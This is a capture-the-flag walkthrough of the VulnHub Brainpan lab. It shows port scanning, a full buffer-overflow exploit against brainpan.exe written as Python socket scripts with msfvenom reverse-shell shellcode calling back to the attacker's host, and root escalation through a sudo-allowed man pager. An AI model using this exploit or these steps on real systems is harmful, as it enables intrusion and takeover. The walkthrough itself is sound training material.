

# <a href='https://www.vulnhub.com/entry/brainpan-1,51/' target="blank">VulnHub Brainpan</a>

> Author: Hades

> [*Scripting here*](https://github.com/leecybersec/bash-script)

### Quick Scanning

``` bash
┌──(Hades㉿172.17.0.1)-[8.8:14.2]~
└─$ nmap -p- --min-rate 3000 192.168.110.136
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-26 09:11 EST
Nmap scan report for 192.168.110.136
Host is up (0.0012s latency).
Not shown: 65533 closed ports
PORT      STATE SERVICE
9999/tcp  open  abyss
10000/tcp open  snet-sensor-mgmt

Nmap done: 1 IP address (1 host up) scanned in 2.49 seconds
```

### Check port

In there 9999, we need enter the password to access.


At port 10000, I saw only the image there.

=== "Port 10000"

	

=== "view-source"

	

### Gobuster

Let discovery port 10000 with gobuster and I saw the special uri "/bin".

``` bash
┌──(Hades㉿172.17.0.1)-[3.8:22.0]~
└─$ gobuster dir -u http://192.168.110.136:10000/ -w /usr/share/seclists/Discovery/Web-Content/common.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://192.168.110.136:10000/
[+] Threads:        10
[+] Wordlist:       /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/01/26 09:36:04 Starting gobuster
===============================================================
/bin (Status: 301)
/index.html (Status: 200)
===============================================================
2021/01/26 09:36:07 Finished
===============================================================
```

Go to uri "/bin", I had exe file named "brainpan.exe".


## Buffer Overflow

Download "brainpan.exe" and setup environment in Windows machine with Immunity Debugger.


Check connection

Using nc at Kali machine


At Windows machine, the application received the string "Hades" as password. We can buffer here to exploit the vulnerability.


### Fuzzing

=== "poc.py"

    ``` python
    import socket
	import sys

	payload = "A" * 1000

	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

	s.connect(("192.168.110.129", 9999))

	s.send(payload)
    ```

=== "Kali Machine"

    ``` bash
	┌──(Hades㉿172.17.0.1)-[0.3:27.7]~
	└─$ python poc.py
    ```

=== "Windows Machine"
	

### EIP Control

Create pattern

``` bash
msf-pattern_create -l 1000
```

=== "poc.py"

    ``` python
	import socket
	import sys

	payload = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2B"

	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

	s.connect(("192.168.110.129", 9999))

	s.send(payload)
    ```

=== "Kali Machine"

    ``` bash
	┌──(Hades㉿172.17.0.1)-[0.3:27.9]~
	└─$ msf-pattern_create -l 1000
	Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2B
	                                                                                                                                                                           
	┌──(Hades㉿172.17.0.1)-[0.3:27.6]~
	└─$ python poc.py             
	                                                                                                                                                                           
	┌──(Hades㉿172.17.0.1)-[0.3:27.7]~
	└─$ msf-pattern_offset -q 35724134
	[*] Exact match at offset 524
    ```

=== "Windows Machine"
	

Identify the offset

``` bash
msf-pattern_offset -q 35724134
[*] Exact match at offset 524
```

### Bad Characters

=== "poc.py"

    ``` python
	import socket
	import sys

	juck = "A" * 524

	eip = "B" * 4

	nop = "\x90" * 10

	badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
	"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
	"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
	"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
	"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
	"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
	"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
	"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
	"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
	"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
	"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
	"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
	"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
	"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
	"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
	"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

	payload = juck + eip + nop + badchars

	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

	s.connect(("192.168.110.129", 9999))

	s.send(payload)
    ```

=== "Windows Machine"
	
	
	

After review the ESP data, there is only `\x00` bad characters need to encode.

### JMP ESP

<a href='https://github.com/corelan/mona' target="blank">Import mona in Immunity Debugger</a>

Let's check modules of the process. I saw that the Modules address of brainpan.exe in range [0x3117000:0x3117600]

=== "mona"

    ``` python
	!mona modules
    ```

=== "Windows Machine"

	

Lock around the assemply code, the "JMP ESP" code have address `0x311712f3`.


### Reverse Shell

Create shellcode with msfvenom

``` bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.110.131 LPORT=4444 EXITFUNC=thread  -f c –e x86/shikata_ga_nai -b "x00"
```

Open listener in Kali machine

``` bash
sudo nc -nvlp 4444
```

=== "poc.py"

	``` python
	import socket
	import sys

	juck = "A" * 524

	eip = "\xf3\x12\x17\x31"

	nop = "\x90" * 16

	shellcode = ("\xbd\xfb\x94\x99\xeb\xd9\xf7\xd9\x74\x24\xf4\x5e\x2b\xc9\xb1"
	"\x52\x83\xee\xfc\x31\x6e\x0e\x03\x95\x9a\x7b\x1e\x95\x4b\xf9"
	"\xe1\x65\x8c\x9e\x68\x80\xbd\x9e\x0f\xc1\xee\x2e\x5b\x87\x02"
	"\xc4\x09\x33\x90\xa8\x85\x34\x11\x06\xf0\x7b\xa2\x3b\xc0\x1a"
	"\x20\x46\x15\xfc\x19\x89\x68\xfd\x5e\xf4\x81\xaf\x37\x72\x37"
	"\x5f\x33\xce\x84\xd4\x0f\xde\x8c\x09\xc7\xe1\xbd\x9c\x53\xb8"
	"\x1d\x1f\xb7\xb0\x17\x07\xd4\xfd\xee\xbc\x2e\x89\xf0\x14\x7f"
	"\x72\x5e\x59\x4f\x81\x9e\x9e\x68\x7a\xd5\xd6\x8a\x07\xee\x2d"
	"\xf0\xd3\x7b\xb5\x52\x97\xdc\x11\x62\x74\xba\xd2\x68\x31\xc8"
	"\xbc\x6c\xc4\x1d\xb7\x89\x4d\xa0\x17\x18\x15\x87\xb3\x40\xcd"
	"\xa6\xe2\x2c\xa0\xd7\xf4\x8e\x1d\x72\x7f\x22\x49\x0f\x22\x2b"
	"\xbe\x22\xdc\xab\xa8\x35\xaf\x99\x77\xee\x27\x92\xf0\x28\xb0"
	"\xd5\x2a\x8c\x2e\x28\xd5\xed\x67\xef\x81\xbd\x1f\xc6\xa9\x55"
	"\xdf\xe7\x7f\xf9\x8f\x47\xd0\xba\x7f\x28\x80\x52\x95\xa7\xff"
	"\x43\x96\x6d\x68\xe9\x6d\xe6\x57\x46\x03\x75\x3f\x95\xdb\x68"
	"\x9c\x10\x3d\xe0\x0c\x75\x96\x9d\xb5\xdc\x6c\x3f\x39\xcb\x09"
	"\x7f\xb1\xf8\xee\xce\x32\x74\xfc\xa7\xb2\xc3\x5e\x61\xcc\xf9"
	"\xf6\xed\x5f\x66\x06\x7b\x7c\x31\x51\x2c\xb2\x48\x37\xc0\xed"
	"\xe2\x25\x19\x6b\xcc\xed\xc6\x48\xd3\xec\x8b\xf5\xf7\xfe\x55"
	"\xf5\xb3\xaa\x09\xa0\x6d\x04\xec\x1a\xdc\xfe\xa6\xf1\xb6\x96"
	"\x3f\x3a\x09\xe0\x3f\x17\xff\x0c\xf1\xce\x46\x33\x3e\x87\x4e"
	"\x4c\x22\x37\xb0\x87\xe6\x57\x53\x0d\x13\xf0\xca\xc4\x9e\x9d"
	"\xec\x33\xdc\x9b\x6e\xb1\x9d\x5f\x6e\xb0\x98\x24\x28\x29\xd1"
	"\x35\xdd\x4d\x46\x35\xf4")

	payload = juck + eip + nop + shellcode

	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

	s.connect(("192.168.110.136", 9999))

	s.send(payload)
	```

=== "Kali machine"

	

## Privilege Escalation

### Escape wine to get user

At the punk folder, I saw a script named `checksrv.sh`

=== "Script"

	

=== "checksrv.sh"

	``` bash
	Z:\home\puck>type checksrv.sh
	#!/bin/bash
	# run brainpan.exe if it stops
	lsof -i:9999
	if [[ $? -eq 1 ]]; then 
	        pid=`ps aux | grep brainpan.exe | grep -v grep`
	        if [[ ! -z $pid ]]; then
	                kill -9 $pid
	                killall wineserver
	                killall winedevice.exe
	        fi
	        /usr/bin/wine /home/puck/web/bin/brainpan.exe &
	fi 

	# run SimpleHTTPServer if it stops
	lsof -i:10000
	if [[ $? -eq 1 ]]; then 
	        pid=`ps aux | grep SimpleHTTPServer | grep -v grep`
	        if [[ ! -z $pid ]]; then
	                kill -9 $pid
	        fi
	        cd /home/puck/web
	        /usr/bin/python -m SimpleHTTPServer 10000
	fi
	```

We know that file brainpan.exe is running in the Unix machine using wine. Python was installed in the Unix machine with full path "/usr/bin/python".

Let's create a bash shell with python to access to Unix machine.

``` bash
Z:\home\puck>/usr/bin/python -c "import pty; pty.spawn('/bin/bash')"

puck@brainpan:~$ id
id
uid=1002(puck) gid=1002(puck) groups=1002(puck)
puck@brainpan:~$ whoami
whoami
puck
puck@brainpan:~$ pwd
pwd
/home/puck
puck@brainpan:~$
```

### Gain access to root

#### Kernel check

Check the OS and version

``` bash
puck@brainpan:~$ lsb_release -a
lsb_release -a
No LSB modules are available.
Distributor ID: Ubuntu
Description:    Ubuntu 12.10
Release:        12.10
Codename:       quantal
puck@brainpan:~$
```

The version of Ubuntu machine is 12.10, let's check with searchsploit



We may exploit kernel to get root, but I am not refer this step. Let's enum more!

#### Sudo -l

``` bash
sudo -l
Matching Defaults entries for puck on this host:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User puck may run the following commands on this host:
    (root) NOPASSWD: /home/anansi/bin/anansi_util
puck@brainpan:~$
```

The application `/home/anansi/bin/anansi_util` allow us run it with root permission.

``` bash
puck@brainpan:~$ sudo /home/anansi/bin/anansi_util       
sudo /home/anansi/bin/anansi_util
Usage: /home/anansi/bin/anansi_util [action]
Where [action] is one of:
  - network
  - proclist
  - manual [command]
```

Let's run this app and check how it work.

``` bash
puck@brainpan:~$ sudo /home/anansi/bin/anansi_util manual whoami
sudo /home/anansi/bin/anansi_util manual whoami
No manual entry for manual
WARNING: terminal is not fully functional
-  (press RETURN)  
WHOAMI(1)                        User Commands                       WHOAMI(1)

NAME
       whoami - print effective userid

SYNOPSIS
       whoami [OPTION]...

DESCRIPTION
       Print  the  user  name  associated  with the current effective user ID.
       Same as id -un.

       --help display this help and exit

       --version
              output version information and exit

AUTHOR
       Written by Richard Mlynarik.

REPORTING BUGS
       Report whoami bugs to bug-coreutils@gnu.org
       GNU coreutils home page: <http://www.gnu.org/software/coreutils/>
 Manual page whoami(1) line 1 (press h for help or q to quit)
```

In here, after quit the main page, we can execute `!/bin/bash` to run shell within the privilege.

``` bash
AUTHOR
       Written by Richard Mlynarik.

REPORTING BUGS
       Report whoami bugs to bug-coreutils@gnu.org
       GNU coreutils home page: <http://www.gnu.org/software/coreutils/>
 Manual page whoami(1) line 1 (press h for help or q to quit)!/bin/bash
!/bin/bash                                                                                                                                                                 
root@brainpan:/usr/share/man# whoami                                                                                                                                       
whoami                                                                                                                                                                     
root                                                                                                                                                                       
root@brainpan:/usr/share/man# 
```